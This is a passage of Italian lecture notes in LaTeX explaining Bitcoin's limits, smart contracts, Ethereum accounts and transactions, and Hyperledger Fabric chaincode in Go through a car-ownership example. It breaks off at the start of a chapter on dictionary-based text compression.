Il linguaggio non è Turing-completo: non ci sono istruzioni condizionali e cicli, perché si vuole predicibilità dei tempi di esecuzione, che dipende deterministicamente dal numero di istruzioni in esse contenute. Inoltre è senza stato, non hanno informazione della valuta sbloccata, o non accede alle informazioni del blocco che li contiene.



Alcune caratteristiche di Bitcoin:
\begin{itemize}
    \item \textbf{Throughput}: mediamente 7tps (transactions per second), contro le 2000tps di VISA e 5000tps di Twitter
    \item \textbf{Latency}: 10 minuti per completare una transazione (contro i pochi secondi di VISA)
    \item \textbf{Size and bandwidth}: ogni blocco è almeno 1MB (con un throughput ai livelli di visa si avrebbero circa 214 PB all'anno)
    \item \textbf{Security}: sensibile ad attacchi di tipo 51\%
    \item \textbf{Wasted resources}: a casusa della competizione generata dalla Proof of Work
    \item \textbf{Usability}: API complesse per l'utilizzo al di fuori dell'ambito Bitcoin
    \item \textbf{Scalability}: ad ogni passo la blockchain aggiunge un ulteriore blocco, ogni blocco aumenta con i dati rappresentativi dei precedenti. Man mano che un maggior numero di utenti si unisce alla rete e i blocchi aumentano, il sistema rischia di deformarsi
    \item \textbf{Privacy}: ogni nodo conosce le transazioni eseguite dagli altri, in quanto deve verificarne la validità. Vengono utilizzati degli pseudonimi per garantire la privacy degli utenti
\end{itemize}
Strettamente legato alla tecnologia blockchain è il concetto di \textbf{Smart Contract}. Gli smart contract sono applicazioni che facilitano, verificano o fanno rispettare la negoziazione o l'esecuzione di un contratto. Uno smart contract si presenta in forma di codice che risiede e viene eseguito direttamente all'interno della catena. Tramite gli smart contract può avvenire una trasposizione "informatica" di accordi che si concludono al di fuori della piattaforma tecnologica, mediante funzioni \texttt{if/then} incorporate in software o protocolli informatici.

\begin{mdframed}[backgroundcolor=gray!20,shadow=false]
\textbf{Esempio di applicazione in campo assicurativo}
\begin{itemize}
    \item \textbf{L'ACCORDO} - Due parti stipulano un contratto (come una polizza assicurativa), traducendo e registrando i dettagli in uno smart contract. Ad esempio, clausole su particolari aspetti: le condizioni e gli effetti indesiderati (il rimborso in caso di ritardo del volo aereo).
    \item \textbf{LA VERIFICA} - Lo smart contract viene quindi inserito (trascritto) nella blockchain (come Ethereum, che è pubblica e permissionless), registrato e reso esecutivo dall'insieme dei partecipanti (nodi + miners) sulla base di parametri concordati. C'è un controllo sulla disponibilità dei fondi dell'utente che registra il contratto.
    \item \textbf{IL BLOCCO} - La rete dei dispositivi interconnessi garantisce il mantenimento, l'accessibilità e il corretto aggiornamento di un registro condiviso (ledger). Lo smart contract entra a far parte di un blocco (identificato da un codice hash) che viene validato dai partecipanti alla blockchain.
    \item \textbf{IL MINING} - In Ethereum il meccanismo di validazione è quello del Proof of Work, la soluzione di un enigma matematico connesso al codice del blocco. Il miner che trova la soluzione e registra il contratto ottiene una remunerazione: una fee (da parte di chi sottopone il contratto: più alta l'offerta, più veloce la registrazione) e un premio corrisposto creando nuova moneta (in questo caso Ether).
    \item \textbf{LA CATENA} - Una volta validato, cioè ottenuto il consenso dei nodi, il blocco (con una marca temporale, timestamp) viene aggiunto alla catena, immutabile e certificata. L'operazione è pubblica e mostrata nella piattaforma. Ogni nodo aggiunge il blocco alla catena: la sequenza degli hash crea una catena sicura e non contraffabile.
    \item \textbf{L'ORACOLO} - La blockchain non può accedere a dati esterni alla rete (come gli orari di arrivo degli aerei), interviene quindi l'oracolo: un agente terzo (come un'applicazione) che passa informazioni allo smart contract appena la condizione esterna si verifica (ritardo del volo). L'oracolo può essere un singolo o un "comitato" di attori, per ridurre la centralizzazione.
    \item \textbf{L'ESECUZIONE} - Ricevuto l'input dell'oracolo, scatta automaticamente la clausola \texttt{if/then}. Lo smart contract tra le parti si autoesegue: se l'orario del volo supera il ritardo tollerato dall'accordo, scatta il rimborso dell'assicurato.
\end{itemize}
\end{mdframed}

\subsection{Ethereum}
È la più grande piattaforma software decentralizzata (open source) che consente lo sviluppo di smart contracts e applicazioni decentralizzate senza entità di terze parti. Si tratta di una blockchain potenziate da un linguaggio di programmazione incorporato. Questi contratti possono essere utilizzati in maniera sicura per eseguire un vasto numero di operazioni: sistemi elettorali, registrazione di domini, mercati finanziari, ecc.

La valuta digitale gestita è l'\textbf{Ether}. Ogni operazione richiede una commissione, chiamata \textbf{gas}: è il carburante necessario per svolgere una determinata operazione. Il costo del gas è espresso in \textbf{wei} (10\textsuperscript{-18} Ether).

\vspace{5mm}

Una \textbf{transazione} è un messaggio firmato che esegue un'operazione associata alla blockchain. Nel caso di \textit{cryptocurrency} si tratta di inviare una certa quantità di valuta ad altri nodi della rete. In altri casi possono essere considerate le transazioni le azioni come la registrazione dei nomi di dominio, la realizzazione e l'adempimento delle offerte commerciali e la stipula dei contratti.

\vspace{5mm}

Lo \textbf{stato} è un set di dati di cui una blockchain network deve rigorosamente tenere traccia e che rappresenta i dati attualmente rilevanti per le applicazioni implementate sulla catena. Lo stato è costituito da una serie di oggetti definiti \textit{accounts}. L'esecuzione di una transazione comporta un cambiamento di stato.

Ethereum gestisce due diversi tipi di account:
\begin{itemize}
    \item \textbf{Externally owned accounts} (EOA), che sono in grado di inviare e ricevere Ether, e inviare transazioni agli smart contract.
    \item \textbf{Contract accounts}, che oltre alle funzionalità degli EOA hanno del codice associato e le loro azioni vengono triggerate da EOA o altri contract accounts. L'esecuzione del codice modifica le informazioni contenute nel proprio spazio di archiviazione (consente di utilizzare la blockchain per scopi diversi dalla cryptocurrency).
\end{itemize}
I contratti hanno generalmente quattro scopi:
\begin{enumerate}
    \item gestire un data store che rappresenti qualcosa di utile per altri contratti o per il mondo esterno;
    \item comportarsi come un EOA con politiche di accesso più complicate (una sorta di filtro che consente l'inoltro di messaggi a determinate EOA solo se determinate condizioni vengono soddisfatte);
    \item gestire un contratto o una relazione in corso tra più utenti (un esempio è un contratto che paga automaticamente chi invia una soluzione valida ad alcuni problemi matematici, o dimostra che sta fornendo una risorsa computazionale);
    \item fornire funzionalità ad altri contratti (una sorta di libreria).
\end{enumerate}
Gli smart contracts sono solitamente scritti in linguaggi di programmazione di alto livello (ad es. Solidity), e tale codice viene compilato dalla Ethereum Virtual Machine (EVM) e deployato nella blockchain sottoforma di \textit{EVM bytecode}. L'EVM consente a chiunque di eseguire l'EVM bytecode.


Come per Bitcoin, anche nel caso di Ethereum il consenso nella versione 1.0 è basato su PoW, con l'intento di migrare verso PoS. L'algoritmo utilizzato è \textbf{Ethash}: tale algoritmo consente di calcolare la PoW in maniera più veloce rispetto alla soluzione adottata da Bitcoin. Per aumentare la complessità del problema da risolvere si agisce sulla memoria piuttosto che sul costo computazionale. Ethash utilizza un algoritmo di hash appartenente alla famiglia Keccak, la stessa delle funzioni hash SHA-3. Utilizza un set di dati di grandi dimensioni che viene periodicamente rigenerato e cresce lentamente nel tempo.

Svolge una serie di intensive letture ad accesso casuale in memoria al set di dati di 2 GB strutturato come un grafo aciclico diretto (DAG). La risoluzione si realizza con 64 cicli a partire dall'hash di informazioni di partenza con pagine estratte dal DAG. Il digest viene confrontato con una soglia target. Se inferiore o uguale, il calcolo è considerato riuscito. In caso contrario, l'algoritmo viene rieseguito con un nonce diverso (incrementando quello corrente o scelgliendone uno nuovo a caso).

\vspace{5mm}

Gli indirizzi EOA cominciano con il prefisso \texttt{0x} seguito dai 20 byte più a destra dell'hash della chiave pubblica. Gli indirizzi di contratto sono nello stesso formato, ma sono determinati dal mittente e dal nonce pari al numero di transazione inviato dal cliente.

Ethereum non si basa sugli output di transazione non spesi (UTXO), ma gli account hanno uno stato che indica il saldo corrente. Lo stato non è memorizzato sulla blockchain, ma in un albero separato di Merkle. Un wallet di criptovaluta memorizza le chiavi pubbliche e private (un utente può avere più indirizzi), che possono essere utilizzati per ricevere o spendere ether. I wallet sono come applicazioni che consentono di interagire con un account Ethereum, analogamente alle app di e-banking di un conto bancario.

I contratti hanno generalmente 4 scopi:
\begin{itemize}
    \item gestire un data store che contiene informazioni utili per altri contratti o per il mondo esterno:
    \item comportarsi come un EOA con politiche di accesso più avanzate (una sorta di filtro che consente l'inoltro di "messaggi" a determinate EOA solo se determinate condizioni vengono soddisfatte);
    \item gestire o un contratto o una relazione in corso tra più utenti (un esempio è un contratto che paga automaticamente chi invia una soluzione valida ad alcuni problemi matematici, o dimostra che sta fornendo una risorsa computazionale);
    \item fornire funzionalità ad altri contatti (una sorta di libreria).
\end{itemize}
Il codice viene interpretato dalla Ethereum Virtual Machine (EVM) e rappresentato in EVM bytecode. Gli account dei contratti sono diversi:

% \usepackage{colortbl}


\begin{table}[htb!]
\centering
\begin{tabular}{|c|c|c|} 
\hline
\multicolumn{1}{|l|}{}                                                                                                                          & Account personale      & Account di contratto                                                           \\ 
\hline
{\cellcolor[rgb]{1,0.584,0}} \textcolor{white}{address}  & H(pub\_key)            & H(addr + nonce del creatore)                                                   \\ 
\hline
{\cellcolor[rgb]{1,0,0.4}}\textcolor{white}{code}                                                                                               & $\varnothing$             & \begin{tabular}[c]{@{}c@{}}Codice\\\textcolor[rgb]{0.4,0,0.6}{} \end{tabular}  \\ 
\hline
{\cellcolor[rgb]{0.831,0,1}}\textcolor{white}{storage}                                                                                          & $\varnothing$              & Dati                                                                           \\ 
\hline
{\cellcolor[rgb]{0,0.298,1}}\textcolor{white}{balance}                                                                                          & Saldo ETH (in Wei)     & Saldo ETH (in Wei)                                                             \\ 
\hline
{\cellcolor[rgb]{0,0.663,0.78}}\textcolor{white}{nonce}                                                                                         & \# transazioni inviati & \# transazioni inviati                                                         \\
\hline
\end{tabular}
\end{table}

\begin{itemize}
    \item \textbf{from} - Indirizzo dell'utente di origine della transazione.
    \item \textbf{signature} - Firma della nuova transazione usando la chiave privata dell'utente creatore.
    \item \textbf{to} - Indirizzo dell'utente di destinazione della transazione.
    \item \textbf{amount} - Quantità di ETH trasferita.
\end{itemize}

Nel caso di transazioni per smart contracts la struttura cambia per contenere anche i dati per il contratto:

\begin{table}[htb!]
\centering
\begin{tabular}{lllll}
{\cellcolor[rgb]{1,0.635,0}}~ ~\textcolor{white}{from~ ~} & {\cellcolor[rgb]{1,0,0.408}}~\textcolor{white}{signature~} & {\cellcolor[rgb]{0.827,0,1}}~ ~ \textcolor{white}{to~ ~~} & {\cellcolor[rgb]{0.012,0.384,0.988}}~ ~\textcolor{white}{amount~ ~} & {\cellcolor[rgb]{0,0.502,0.502}}\textcolor{white}{~ ~ data~ ~~} 
\end{tabular}
\end{table}

Di seguito è mostrato uno snippet di bytecode che  mostra una transazione EOA to EOA.

\begin{lstlisting}[escapeinside={(*}{*)}]
(*\texttt{> web3.fromWei(eth.getBalance(eth.accounts[0]))}*)
(*\texttt{100}*)
(*\texttt{> web3.fromWei(eth.getBalance(eth.accounts[1]))}*)
(*\texttt{100}*)
(*\texttt{> eth.sendTransaction\{}*)
      (*\texttt{from: eth.accounts[0],}*)
      (*\texttt{to: eth.accounts[1],}*)
      (*\texttt{value: web3.toWei(10)}*)
(*\texttt{"0x497913c178f656197264f8864c836vbc74bcb44532c352d }*)
(*\texttt{>}*)
(*\texttt{> web3.fromWei(eth.getBalance(eth.accounts[0]))}*)
(*\texttt{89.99958}*)
(*\texttt{> web3.fromWei(eth.getBalance(eth.accounts[1]))}*)
(*\texttt{110}*)
\end{lstlisting}

Il comando \texttt{Web3.fromWei} consente di convertire il Ether un valore espresso in Wei, mentre \texttt{Web3.toWei} fa il contrario. Come si può osservare la transazione ha richiesto una commissione (gas), per cui il valore associato ad \texttt{accounts[0]} è inferiore a 90 Ether. L'avvenuta transazione genera un codice di hash come ricevuta.


% \usepackage{colortbl}


\begin{table}[hbt!]
\centering
\begin{tabular}{|c|c|c|} 
\hline
\rowcolor[rgb]{0.902,0.902,0.902}                                                                                                                                       & \textbf{Bitcoin}                                           & \textbf{Ethereum}                                                          \\ 
\hline
{\cellcolor[rgb]{0.902,0.902,0.902}}\textbf{Utilizzo}                                                                                                                   & \begin{tabular}[c]{@{}c@{}}\\Cryptocurrency\\\end{tabular} & \begin{tabular}[c]{@{}c@{}}Cryptocurrency +~\\smart contract\end{tabular}  \\ 
\hline
{\cellcolor[rgb]{0.902,0.902,0.902}}\textbf{Modello}                                                                                                                    & \begin{tabular}[c]{@{}c@{}}\\UTXO\\\end{tabular}           & Account/Balance                                                            \\ 
\hline
{\cellcolor[rgb]{0.902,0.902,0.902}}\begin{tabular}[c]{@{}>{\cellcolor[rgb]{0.902,0.902,0.902}}c@{}}\textbf{Tempo per la creazione}\\\textbf{di un blocco}\end{tabular} & 10 minuti                                                  & 10/12 secondi                                                              \\ 
\hline
{\cellcolor[rgb]{0.902,0.902,0.902}}\textbf{Nascita}                                                                                                                    & \begin{tabular}[c]{@{}c@{}}\\Genesis block\\\end{tabular}  & Presale                                                                    \\
\hline
\end{tabular}
\end{table}
\clearpage

\textbf{Solidity} è un linguaggio di programmazione con tipizzazione statica ed orientato agli oggetti per la scrittura di applicazioni che implementano la logica di busineess incorporata in smart contract su Ethereum e altre piattaforme blockchain. È progettato attorno alla sintassi ECMAScript ma si differenzia per una tipizzazione statica e tipi di ritorno variadici. Supporta inoltre tipi complessi definiti dall'utente, ad esempio struct ed enumerazioni, che consentono di raggruppare i tipi di dati correlati. I contratti supportano l'ereditarietà, inclusa quella multipla con linearizzazione C3. È stata inoltre introdotta un'interfaccia binaria dell'applicazione (ABI) che facilita più funzioni type-safe all'interno di un singolo contratto.

\begin{mdframed}[backgroundcolor=gray!20,shadow=false]

La linearizzazione C3 è un algoritmo utilizzato per ottenere l'ordine in cui i metodi devono essere ereditati in presenza di ereditarietà multipla. La linearizzazione è la somma della classe più un merge delle linearizzazioni dei suoi genitori e un elenco dei genitori stessi. Il merge viene eseguito selezionando la prima intestazione delle liste che non appare nella coda di nessun'altra. L'elemento selezionato viene rimosso e aggiunto all'elenco di output. Se non è possibile selezionare un'intestazione valida, allora l'unione è impossibile da calcolare a causa di ordinamenti incoerenti delle dipendenze e nessuna linearizzazione è possibile.

\texttt{L(O) := [O]}

\texttt{L(A) := [A] + merge(L(O),[O]) = [A] + merge([O],[O]) = [A, O]}

\texttt{L(K1) := [K1] + merge(L(A),L(B),L(C),[A,B,C]) + [K1] + merge([A,O],[B,O],[V,O],}

\texttt{[A,B,C]) = [K1,A] + merge([O],[B,O],[C,O],[B,C]) = [K1,A,B] + merge([O],[O],}

\texttt{[C,O],[C]) = [K1,A,B,C] + merge([O],[O],[O]) = [K1,A,B,C,O]}

\end{mdframed}

\begin{figure}[htb!]
    \centering
    \includegraphics[width=9cm]{./Images/cap3/3.14.png}
    \caption{Linearizzazione C3}
\end{figure}

Un'ABI è un'interfaccia tra due moduli di programma binario, e definisce come si accede alle strutture dati o alle routine nel codice macchina. È espresso in un formato di basso livello, dipendente dall'hardware; al contrario, un'API definisce questo accesso nel codice sorgente, in formato di livello relativamente alto, indipendente dall'hardware.

\subsection{Hyperledger Fabric}
Hyperledger è una famiglia di progetti di blockchain open source avviato a dicembre 2015 dalla Linux Foundation per supportare lo sviluppo collaborativo di soluzioni DLT. Si suddivide in framework per la realizzazione di piattaforme blockchain e strumenti a supporto di applicazioni e smart contracts.

Rispetto ad altre popolari soluzioni ha delle differenze:
\begin{itemize}
    \item ha un'architettura altamente modulare e configurabile;
    \item supporta smart contracts (detto Chaincode) scritti in linguaggi di programmazione comuni, piuttosto che utilizzare linguaggi specifici del dominio;
    \item i partecipanti sono noti, invece che essere anonimi, adottando un modello di governance costruito sulla fiducia che c'è tra i partecipanti;
    \item supporto per protocolli di consenso innestabili, da scegliere sulla base delle esigenze, e senza una criptovaluta nativa per incentivare costosi mining o per alimentare l'esecuzione di contratti intelligenti.
\end{itemize}
Le organizzazioni che prendono parte alla costruzione della rete Hyperledger Fabric sono chiamate \textit{membri}, ognuna responsabile di impostare i propri peer per la partecipazione alla rete. Questi peer devono essere configurati con materiali crittografici appropriati per autenticare la propria identità o proteggere i canali di comunicazione. 

I peer ricevono richieste di transazioni dai client mediante un SDK o servizi web REST per interagire con la rete Hyperledger Fabric, e sono connessi tra loro da canali che consentono l'isolamento dei dati e la riservatezza. Tutti i peer mantengono il loro registro unico per canale a cui sono iscritti, ma a differenza di Ethereum, hanno ruoli diversi:
\begin{itemize}
    \item \textbf{Endorser peer} - ricevuta la richiesta da un client, convalida la transazione ed esegue il Chaincode simulando l'esito della transazione senza aggiornare la blockchain. Al termine, l'Endorser può approvare o disapprovare la transazione. Solo il nodo Endorser esegue il Chaincode, quindi non è necessario installarlo in ogni nodo della rete.
    \item \textbf{Anchor peer} - riceve gli aggiornamenti e trasmette gli aggiornamenti agli altri peer nell'organizzazione. È possibile configurare canali segreti tra i peer, e le transazioni tra i peer di quel canale sono visibili solo ai partecipanti.
    \item \textbf{Orderer peer} - rappresenta l'elemento centrale di un canale tra peer ed è responsabile dello stato del registro coerente in tutta la rete ordinando le transazioni e collocandole in nuovi blocchi. Sono attualmente disponibili due opzioni:
    \begin{itemize}
        \item Solo: un singolo orderer da usare per lo sviluppo, non in produzione, perché poco scalabile e resiliente.
        \item Kafka: soluzione di streaming processing di Apache che garantisce la ricezione di messaggi nell'ordine di invio.
    \end{itemize}
\end{itemize}
Si possono avere due tipi di transazioni: \textit{deploy transactions}, per creare un nuovo chaincode ed installarlo sulla blockchain, ed \textit{invoke transactions}, per richiamare le funzioni di un chaincode. L'applicazione client trasmette la richiesta all'Endorser peer, che controlla i dettagli del certificato e altri dettagli per convalidare la transazione ed eventualmente esegue il chaincode e restituisce le risposte di endorsement, accettando o rifiutando la transazione. Il client invia la transazione approvata all'Ordener peer, affinché questa venga ordinata correttamente rispetto ad altre transazioni ed inclusa in un blocco.

Il nodo Orderer include la transazione di un blocco, e inoltre il blocco ai nodi Anchor di diverse organizzazioni membri della rete, che eseguono un consenso distribuito PBFT.

Al raggiungimento del consenso, gli Anchor peer trasmettono il blocco agli altri peer all'interno della propria organizzazione così che questi aggiornano il proprio registro locale con l'ultimo blocco. Così tutta la rete ottiene il registro sincronizzato.

\vspace{5mm}

Una Certificate Authority (CA) emette i certificati per consentire:
\begin{itemize}
    \item alle organizzazioni di autenticarsi sulla rete;
    \item alle applicazioni client di autenticare le proposte di transazione;
    \item ai peer di approvare le proposte e caricare le transazioni nel libro mastro se valide.
\end{itemize}

Possono esserci una o più CA sulla rete e le organizzazioni possono scegliere di utilizzare una propria CA. La rete viene creata dalla definizione del servizio di ordinazione con la configurazione per i canali all'interno della rete, includendo le politiche di accesso e le informazioni sull'appartenenza (come certificati radice X509) per ogni membro del canale. Il consorzio alla base della rete viene istaurato definendo i certificati delle organizzazioni membro e le relative CA. Un canale C1 è creato generando il blocco di configurazione sul servizio di ordinazione, che valuda la validità della configurazione del canale. L'uso dei canali sono regolati dai criteri con cui sono configurati. I peer vengono uniti ai canali dalle organizzazione che li possiedono e possono esserci più nodi peer sui canali all'interno della rete. P1 è il peer che mantiene copia dello stato della blockchain L1 per le transazioni su C1.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap3/3.15.png}
\end{figure}

Il libro mastro contiene anche delle informazioni private, accessibili solo ad alcune delle organizzazioni sul canale. Sono contenute in un SideDB e seguono lo stesso processo di endorsement e commit dei dati pubblici, ma la blockchain contiene solo il suo hash. Non ci sono limiti teorici alla dimensione di una rete, e il protocollo gossip è usato per accogliere un gran numero di nodi peer sulla rete.

\vspace{5mm}
 
Nel complesso l'architettura di Hyperledger è composta da tre macro-aree: 
\begin{itemize}
    \item Una per la gestione delle identità, dell'appartenenza di peer ad associazioni e l'iscrizione del peer ai canali.
    \item Un libro mastro con lo stato corrente dei dati e uno storico delle transazioni.
    \item L'ambiente di esecuzione dei chaincode per gli smart contract, diversa da quella di ethereum, che ha un linguaggio di programmazione specifico per gli smart contract (Solidity), infatti in Hyperledger c'`e il concetto di secure container realizzati con un linguaggio di programmazione general purpose.
\end{itemize}
Trasversalmente sono disponibili delle primitive crittografiche a supporto di questi tre strati, che servono per effettuare l'hashing all'interno dei blocchi e per la generazione  e cifratura di token. Questo perché normalmente all'interno dei blocchi non è presente la cifratura del contenuto.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=10cm]{./Images/cap3/3.16.png}
\end{figure}

Ogni elemento ha un'identità digitale incapsulata in un certificato digitale X.509, esprimendo anche le autorizzazioni necessarie per le risorse e l'accesso alle funzionalità nella rete blockchain. Affinché un'identità sia verificabile, deve provenire da un'autorità fidata, come la CA con un modello gerarchico PKI. Le Certificate Authority oltre ad avere la possibilità di creare certificati, possiedono anche una lista di certificati revocati, per cui è possibile sempre verificare la validità di un certificato, se questo è rilasciato da una CA.

Il certificato digitale X.509 contiene molte informazioni in merito ad un'identità in SUBJECT, ma anche la chiave pubblica legata all'identità, mentre la sua chiave di firma non lo è e viene mantenuta privata. Il certificato è controfirmato dalla CA che lo emette e lo rende impossibile da modificare, perché viene espresso quale algoritmo è stato utilizzato per la firma imposta dalla CA.

Per motivi di scala esiste una gerarchia di CA, con una Root CA come radice e una serie di CA intermediari i cui certificati sono firmati dalle CA di livello superiore. Fabric offre una propria CA radice firmata da sé stessa, chiamata \textbf{Root of Trust}. Il libro mastro blockchain è costituito da due parti distinte:
\begin{itemize}
    \item un databse che mantiene uno stato globale che contiene i valori correnti di un insieme di dati indirizzabili per mezzo di una chiave (coppia chiave-valore);
    \item collegato allo stato globale abbiamo uno storico delle transazioni come blockchain, con tutti i cambiamenti dello stato globale.
\end{itemize}
Il numero di versione viene incrementato ogni volta che lo stato cambia, e anche verificato ogni volta che lo stato viene aggiornato.

Un blocco ha un header con un numero di sequenza, l'hash del blocco e del blocco precedente, il corpo con l'insieme ordinato delle transazioni e dei metadati con l'ora di creazione del blocco, il certificato, la chiave pubblica e la firma del creatore del blocco. Le transazioni hanno un header come il nome del chaincode pertinente e la sua versione, la firma del creatore, la proposta e la risposta con l'endorsement. Da ricordare che Hyperledger non ha un sistema di criptovalute come Ethereum, per cui le transazioni rappresentano invocazioni di chaincode.

\subsubsection{\textbf{CHAINCODE}}

\textbf{Chaincode} è uno smart contract nell'ambiente Hyperledger Fabric ed è un programma scritto in Go, Node.js o Java che implementa un'apposita interfaccia e viene eseguito in un contenitore Docker per garantire al peer che sta eseguendo l'endorsement di eseguire la verifica in un ambiente isolato. Lo stato creato da un chaincode è limitato esclusivamente a quel chaincode e non è possibile accedervi direttamente da un altro chaincode. Tuttavia, un chaincode può invocare un altro chaincode per accedere al suo stato.

L'interfaccia Chaincode specifica le funzioni da implementare (circa 36), di cui le due più importanti sono:
\begin{itemize}
    \item \texttt{init()} viene chiamato quando un chaincode viene deployato per la prima volta o riceve un'istanza o una transazione di aggiornamento in modo da eseguire qualsiasi inizializzazione necessaria, inclusa quella dello stato dell'applicazione;
    \item \texttt{invoke()} viene chiamato in risposta alla ricezione di una transazione per elaborare le proposte di transazione assegnate al chaincode.
\end{itemize}
L'altra interfaccia è \texttt{ChaincodeStubInterface}, che viene utilizzata per accedere e modificare la blockchain e per effettuare invocazioni tra in chaincode. Dato che il supporto Java è stato introdotto di recente, le API Node.js e Go sono a un livello più maturo. JavaScript invece non si presta bene nel caso di calcoli numerici. Il linguaggio più usato per la realizzazione di chaincode è Go: questo non presenta il concetto di classe ma offre struct, una versione leggera delle classi a cui è possibile aggiungere metodi. La differenza tra struct e classi è che nelle struct i membri sono tutti pubblici per default, mentre nelle classi esiste il concetto di incapsulamento e membri privati. Inoltre nelle struct di Go lang non è possibile definire i metodi. Nella sintassi di Go lang dopo la parola chiave \texttt{func} sono indicati i tipi di oggetti che possono chiamare quella funzione.

Vediamo un esempio di realizzazione di smart contract in Go per la gestione delle auto e dei loro proprietari:

\begin{lstlisting}[language=Go]

type Car struct{
  modelName string
  color string
  serialNo string
  manufacturer string
  owner Owner  //composition
}

type Owner struct{
  name string
  nationalIdentity string
  gender string
  address string
}

//attached by reference -> called as pointer receiver
func (c *Car) changeOwner(newOwner Owner){
  c.owner = newOwner
}

//attached by value -> called as value receiver
func (c Car) changeOwner(newOwner Owner){
  c.owner = newOwner
}

/*queste due funzioni possono essere chiamate da oggetti Car, nel primo caso da riferimenti a tipo Car, mentre nel secondo caso da oggetti di tipo Car. Nel primo caso le modifiche nel corpo del metodo si riflettono sul chiamante, mentre nel secondo caso viene effettuata una copia.*/

\end{lstlisting}

\subsubsection{COSTRUZIONE DI UNO SMART CONTRACT}

L'interfaccia da implementare è la seguente con le due principali funzioni delle 36 attualmente specificate:

\begin{lstlisting}[language=Go]

type Chaincode interface {
//Init method accepts stub of type ChaincodeStubInterface as
//argument and returns peer.Response type object
  Init(stub ChaincodeStubInterface) peer.Response
  Invoke(stub ChaincodeStubInterface) peer.Response
}

\end{lstlisting}
Non sussiste una sintassi di derivazione, ma basta solo implementare i metodi di interesse. Il tipo di ritorno è indicato alla fine e non all'inizio.
\begin{lstlisting}[language=Go]

type CarChaincode struct{
}

//Init implemented by CarChaincode
func (t *CarChaincode) Init(stub shim.ChaincodeStubInterface)
  pb.Response {
  
}

//Invoke implemented by CarChaincode
func (t *CarChaincode) Invoke(stub shim.ChaincodeStubInterface)
  pb.Response {
  
}

//pb e shim sono le librerie importate

\end{lstlisting}

\subsubsection{\textbf{Costruzione di uno smart contract}}

Inseriamo la logica di inizializzazione: la funzione \texttt{Init()} carica uno stato iniziale sulla blockchain. Dopodiché  salvo le struct in variabili di tipo json. La funzione GetState fa una query sul DB di hyperledger fabric per controllare lo stato.
\begin{lstlisting}[language=Go]

func (t *CarChaincode) Init(stub shim.ChaincodeStubInterface)
  pb.Response {
  
  //Declare owners from Owner struct
  tom := Owner{name: "Tom H", nationalIdentity: "ABCD33457", gender:
  "M", address: "1, Tumbbad"}
  bob := Owner{name: "Bob M", nationalIdentity: "QWER33457", gender:
  "M", address: "2, Tumbbad"}
  
  //Declare car from Car struct
  car := Car{modelName: "Land Rover", color: "white", serialNo:
  "334712531234", manufacturer: "Tata Motors", owner: tom}
  
  //Convert tom Owner to []byte
  tomAsJSONBytes, _ := json.Marshal(tom)
  //Add Tom to ledger
  err := stub.PutState(tom.nationalIdentity, tomAsJSONBytes)
  if err != nil {
    return shim.Error("Failed to create asset " + tom.name)
  }
  
  //Add Bob to ledger
  bobAsJSONBytes, _ := json.Marshal(bob)
  //Add Tom to ledger
  err := stub.PutState(bob.nationalIdentity, bobAsJSONBytes)
  if err != nil {
    return shim.Error("Failed to create asset " + bob.name)
  }
  
  //Add car to ledger
  carAsJSONBytes, _ := json.Marshal(car)
  //Add Tom to ledger
  err := stub.PutState(car.serialNo, carAsJSONBytes)
  if err != nil {
    return shim.Error("Failed to create asset " + car.serialNo)
  }
  
  return shim.Success([]byte("Assets created successfully."))
}

\end{lstlisting}

Inseriamo la logica di Invoke:

\begin{lstlisting}[language=Go]

func (c *carChaincode) Invoke(stub shim.ChaincodeStubInterface)
 pb.Response{
 
 //Read args from the transaction proposal
 //fc -> method to invoke
 fc, args := stub.GetFunctionAndParameters()
 if fc == "TransferOwnership" {
   return c.TransferOwnership(stub, args)
 }
 return shim.Error("Called function isn't defined in the chaincode")
}

func (c *CarChaincode) TransferOwnership(stub
  shim.ChaincodeStubInterface, args []string) pb Response {
  //args[0] -> car serial no
  //args[1] -> new owner national identity
  //Read existing car asset
  carAsBytes, _ := stub.GetState(args[0])
  if carAsBytes == nil {
    return shim.Error("car asset not found")
  }
  
  //Construct the struct Car
  car := Car{}
  _ = json.Unmarshal(carAsBytes, &car)
  
  //Read newOwner details
  ownerAsBytes, _ := stub.GetState(args[1])
  if ownerAsBytes == nil {
    return shim.Error("owner asset not found")
  }
  
  //Construct the struct Owner
  newOwner := Owner{}
  _ = json.Unmarshal(ownerAsBytes, &mewOwner)
  
  //Update owner
  car.changeOwner(newOwner)
  
  carAsJSONBytes, _ := json.Marshal(car)
  
  //Update car ownership
  err := stub.PutState(car.serialNo, carAsJSONBytes)
  if err != nil {
    return shim.Error("Failed to create asset " + car.serialNo)
  }
  
  return shim.Success([]byte("Assets modified."))
}

\end{lstlisting}

Per completare lo smart contract è necessario specificare il preambolo:

\begin{lstlisting}[language=Go]

package main

import (
  "encoding/json"
  
  "github.com/hyperledger/fabric/core/chaincode/shim"
  pb "github.com/hyperledger/fabric/protos/peer"
  )

\end{lstlisting}

E la funzione principale:
\begin{lstlisting}[language=Go]

func main() {
  logger.SetLevel(shim.LogInfo)
  
  //Start chaincode process
  err := shim.Start(new(CarChaincode))
  if err != nil {
    logger.Error("Error starting PhantomChaincode - ", err.Error()
  }
}

\end{lstlisting}

\chapter{Compressione del testo}
I metodi visti finora sono considerati strumenti di codifica piuttosto che di compressione, che usavano un metodo statistico per codificare i simboli emessi dalla sorgente. La sostituzione testuale si basa sulla costruzione di un modello che viene poi effettivamente utilizzato per comprimere il testo.

\section{Metodi di sostituzione testuale on-line}

I metodi di compressione basati su dizionari non vanno a codificare i caratteri sorgente come stringhe di bit a lunghezza variabile, ma prendono invece in input stringhe di lunghezza variabile dalla sorgente e li codificano come \textbf{indici}, o \textit{tokens}. Se gli indici hanno una dimensione più piccola delle parole che vanno a rimpiazzare, otteniamo ovviamente un risparmio nella codifica e quindi compressione.

Questo modello è semplice da comprendere perché è quello che utilizziamo nella vita di tutti i giorni con gli elenchi telefonici o con un codice postale, ad esempio la stringa 84100 sappiamo che codifica la stringa "Città di Salerno".

Vediamo ora l'algoritmo di codifica, che legge un flusso di caratteri su \(\Sigma\) e scrive un flusso di bit, e l'algoritmo di decodifica, che riceve un flusso di bit e produce un flusso di caratteri su  \(\Sigma\). 

\subsubsection{Algoritmo di codifica}

\begin{mdframed}[backgroundcolor=gray!20,shadow=false]

(1) Initialize the local dictionary \(D\) with the set \(INIT\).

\vspace{3mm}

(2) \textbf{repeat forever}

\vspace{3mm}

\(\>\>\>\>\>\)(a) Get the current match:

